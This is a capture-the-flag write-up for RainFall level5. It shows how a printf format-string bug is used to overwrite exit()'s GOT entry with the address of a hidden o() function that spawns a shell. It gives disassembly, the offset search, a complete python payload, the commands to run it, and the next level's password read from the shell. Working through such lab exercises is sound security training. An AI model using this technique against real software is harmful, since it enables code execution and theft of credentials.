 # Level5

## Analysis

You can find the decomp of the level [here](./level5_decomp.c). `main()` calls a function `n()` which uses `gets()` and `printf()`. There is also a funcion `o()` which isn't called but which contains a call to `system("/bin/sh")`.

We might be able to replace one of the `exit()` call!

## Exploit

```bash
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb)
```

When using GDB we can use `disas n` to get the asm of `n()` which will give us the address of plt exit. Now this address isn't what we're looking for since it's the address that points to another function that jumps to the real `exit()` as you can see when we disas the address of `exit@plt`.

Now `0x8049838` is the address we want to modify! 

To find the address we want to jump to, we will need to find the address of `o()` with `objdump -d level5`:

```bash
080484a4 <o>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       83 ec 18                sub    $0x18,%esp
 80484aa:       c7 04 24 f0 85 04 08    movl   $0x80485f0,(%esp)
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt>
 80484b6:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>
```

`080484a4` to decimal is `134513828`, this is what we need to write to our address!

Now to find the address offset where we need to write, we'll use the same concept as the previous exerices:

```bash
level5@RainFall:~$ ./level5                            
AAAA %x %x %x %x 
AAAA 200 b7fd1ac0 b7ff37d0 41414141 
```

"AAAA" is written at the fourth offset as we can see with the "41414141"

## Payload

This is what our payload will look like:

`[address] + [adress to write as padding - 4 (addr bytes)] + [stack offset]`

<details>
  <summary>Spoiler</summary>

   `python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' > /var/crash/tmp.txt`

   134513828 (which is the decimal representation of the address of `o()`) now becomes 134513824. The reason being that printf counts the first 4 bytes that we wrote (the address of `exit@plt`) in its total written bytes, hence why we remove 4 to correctly write "134513828" at the correct adress. You can't see them when you `cat` the file, but you can see them using `xdd` and notice that they are indeed present (which makes perfect sense). When you cat the file, you get this `8%134513824x%4$n`, however printf receives `\x38\x98\x04\x08%134513824x%4$n` to interpret. 

  We will write using the same trick as before `[offset$n]` which will write to the fourth address in the stack (which should be our first printf argument, so the address):

  ```bash
  level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' > /var/crash/exploit
  level5@RainFall:~$ cat /var/crash/exploit - | ./level5
  ```

  And we will be greeted a prompt:

  ```bash
  whoami
  level6
  cat /home/user/level6/.pass
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
  ```
</details>

## Flag

d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31